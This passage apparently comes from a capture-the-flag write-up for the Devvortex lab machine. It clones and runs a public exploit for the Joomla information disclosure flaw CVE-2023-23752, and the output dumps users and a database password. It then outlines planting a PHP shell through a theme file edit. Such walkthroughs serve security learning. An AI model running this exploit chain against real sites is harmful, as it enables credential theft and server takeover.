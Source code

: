 the 4.2 version infected **information disclosure vulnerability** 

```bash
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
```

```bash
┌──(root㉿kali)-[/home/kali/exploit-CVE-2023-23752]
└─# ruby exploit.rb http://dev.devvortex.htb              
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

> lewis:P4ntherg0t1n5r3c0n##
> 

based to hacktricks joomla we go to edit file in theme with php shell

![Untitled](/assets/images/HTB/Untitled%203.png)
